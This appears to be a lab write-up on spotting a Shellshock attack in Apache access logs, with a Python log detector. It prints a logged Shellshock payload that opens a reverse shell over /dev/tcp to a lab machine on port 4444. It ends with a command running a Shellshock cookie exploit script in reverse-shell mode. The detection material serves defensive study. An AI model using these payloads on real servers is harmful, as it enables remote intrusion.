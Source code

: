 ```bash
cat /var/log/apache2/access.log
```

192.168.51.50 - - [02/Aug/2021:03:57:11 -0400] "GET /cgi-bin/index.cgi HTTP/1.1" 200 151 "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.51.50/4444 0>&1" "-"

The last field of the Apache log format is supposed to be the `User-Agent` field, which is suspiciously empty ("-").

The second-to-last field would normally contain the HTTP `Referer` header, but instead, a reverse-shell attack that connects back to the Kali lab machine.

```bash
sudo ps aux | grep "/bin/bash"
```

The bash process has been invoked by the `www-data` user, which corresponds to the Apache web server process.

`python3 shellshock_log_detector.py`

```python
#!/usr/bin/env python

import re
import os.path

centos_apache_log_file_path = "/var/log/httpd/access_log"
ubuntu_apache_log_file_path = "/var/log/apache2/access.log"
ubuntu_custom_log_file_path = "/var/log/apache2/with_cookies.log"

apache_log_files = [centos_apache_log_file_path,ubuntu_apache_log_file_path,ubuntu_custom_log_file_path]

web_log_regex = '([(\d\.)]+) - - \[(.*?)\] \"(.*?)\" (\d+) (\d+) \"(.*?)\" \"(.*?)\"'
shellshock_regex = '\(\)\s*\t*\{.*;\s*\}\s*;'
for log_file in apache_log_files:
        if os.path.isfile(log_file) :
                with open(log_file, "r") as file:
                    for line in file:
                        for match in re.finditer(web_log_regex, line, re.S):
                            log_line = (re.match(web_log_regex, line)).groups()
                            for match in re.finditer(shellshock_regex, log_line[5], re.S):
                                if log_line[3] != '200':
                                    print("[!] - Shellshock attempt DETECTED in %s" % log_file)
                                elif log_line[3] == '200':
                                    print("[!] - Shellshock attack  SUCCEDED in %s" % log_file)
                                    print(log_line)
```

The Shellshock attack vector embeds the payload inside the `Referer` HTTP Header, but can also store it in any part of the HTTP Request, such as the `Cookie` header, as long as the web server processes it and triggers the vulnerability.

```bash
./shellshock_cookie.py payload=reverse rhost=192.168.51.12 lhost=192.168.51.50 lport=4444
```
